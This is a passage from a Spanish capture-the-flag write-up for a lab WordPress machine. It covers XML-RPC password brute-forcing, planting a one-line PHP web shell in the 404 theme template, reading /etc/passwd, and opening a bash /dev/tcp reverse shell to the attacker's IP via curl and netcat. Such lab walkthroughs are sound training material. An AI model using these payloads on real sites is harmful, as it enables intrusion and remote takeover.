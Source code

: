 Buscando en el cuerpo de la respuesta podemos ver que nuestro método **wp.getUsersBlogs** está habilitado }:).  


### bruter.sh

**wp.getUsersBlogs** nos permite consultar los blogs creados por un usuario específico pero para poder obtenerlos debemos autenticarnos como un usuario válido de WordPress, gracias a ***getUsers.sh*** ya debemos tener los usuarios válidos en el archivo ***usuarios-wp.txt*** ahora solo resta ejecutar nuestro script y pasarle como parametro el host a atacar y el diccionario pero por defecto utiliza el diccionario de nmap `/usr/share/nmap/nselib/data/passwords.lst`. 

`./bruter.sh `


```shell

```

Una vez que obtuvimos las credenciales podemos iniciar sesión en <http://blog.thm/wp-login> y lo primero que veremos sera el panel de administración:  


[IMAGEN]()

En este punto necesitamos obtener una shell inversa para ganar acceso a la máquina, para eso vamos a editar una de las plantillas por defecto del tema `Tweenty-tweenty` que está utilizando el sitio, para ello vamos a el panel izquierdo `tempaltes > edit > 404`.  



[IMAGEN]()

El siguiente código en PHP nos permitirá ejecutar comandos a nivel de sistema al pasarle el parámetro `comando` a la página de error 404. Es importante destacar que este código se debe agrear al principio de todo, de lo contrario los comandos enviados podrían no ejecutarse.  

```php
echo "<pre>" . system($_GET['comando']) . "</pre>";
```

Ahora consultamos un recurso que no existe por ejemplo `blog.thm/ElMalditoxd` para que el sitio cargue la plantilla 404 y es aquí donde podremos ejecutar comandos arbitraios a través de la variable `comando`. Como prueba enviaremos el comando `cat /etc/passwd`.



[/etc/passwd]()

Ya que comprobamos que se ejecutan comandos correctamente toca ponernos a la escucha con `nc -lvp 443` y entablar un `reverse shell`, para esto tenemos 2 opciones: agregar `bash -i >& /dev/tcp/10.10.139.25/443 0>&1` como comando o enviar una petición curl (solo hay que cambiar ip y el puerto):

```shell
curl -s -X GET "blog.thm/ElMalditoxd?comando=" -d "bash -i >& /dev/tcp/10.10.139.25/443 0>&1"
```

En nuestra ventanta de netcat ya tendríamos nuestra conexión inversa, para un mejor manejo de la shell podemos seguir mi post o vídeo sobre [Como obtener una shell interactiva](https://c04tl.github.io/posts/Shell-interactiva/)

